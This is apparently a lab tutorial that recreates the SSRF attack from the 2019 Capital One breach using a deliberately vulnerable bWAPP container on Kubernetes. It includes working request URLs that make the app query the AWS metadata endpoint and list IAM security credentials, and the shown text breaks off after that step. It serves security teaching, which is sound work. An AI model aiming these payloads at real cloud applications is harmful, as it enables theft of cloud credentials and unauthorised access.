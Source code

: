 ==========================
SSRF Attack - CapitalOne
==========================

On 19th July 2019 **CapitalOne** was breached by an ex-aws employee exploiting a vulnerability on its Web Application Firewall (WAF) using Server Side Request Forgery, popularly known as SSRF attack.

.. image:: https://raw.githubusercontent.com/araalinetworks/attacks/main/images/ssrfwhat.png
 :width: 650
 :alt: what is ssrf?

Using the vulnerability, the attacker was able to download IAM credentials from AWS meta-data service, which is how AWS manages IAM roles to guard access to amazon resources. Underneath its API, AWS transparently rotates the short-lived credentials served by the metadata service.

For the demo, we will use an open-source app used for web attack testing called bwApp that has the same vulnerability.

There are 2 parts to this setup

1) Setup a container running vulnerable bWAPP where we can run SSRF attack
2) Get credential and access AWS S3

.. image:: https://raw.githubusercontent.com/araalinetworks/attacks/main/images/ssrfdemosetup.png
 :width: 650
 :alt: what is ssrf?

Running the Vulnerable container in Kubernetes
==============================================

**Container:** We have already created a container with a vulnerable bWAPP app and its present at - quay.io/araalinetworks/ssrf

Download the deployment yaml and save it as deployment.yaml

Apply this file in your Kubernetes cluster in a specific namespace

.. code-block:: RST

    $ kubectl create ns bg-ssrf
    $ kubectl apply -f deployment.yaml -n bg-ssrf

Check (1) if the pods are running, and (2) get the External IP of the exposed service

.. image:: https://raw.githubusercontent.com/araalinetworks/attacks/main/images/ssrfgetposvc.png
 :width: 650
 :alt: kubectl get pods

Now open a browser and check if the app is up and running, by logging into the external IP on port 80

http://20.81.5.36/install.php

Click on 'here' (Click 'here' to install bWAPP).

.. image:: https://raw.githubusercontent.com/araalinetworks/attacks/main/images/ssrfinstall.png
 :width: 350
 :alt: frond end of the app

If you see the screen above, Congratulations! we have completed the first part.


Attacking the App
==================================

Now pass attack parameter in the browser

1) Get information from metadata service

.. code-block:: RST
    
  http://20.81.5.36/rlfi.php?language=http://169.254.169.254/latest/meta-data&action=go

Replace 20.81.5.36 with your external-IP

2) Get IAM Role assigned to the container

.. code-block:: XML

   http://20.81.5.36/rlfi.php?language=http://169.254.169.254/latest/meta-data/iam/security-credentials&action=go

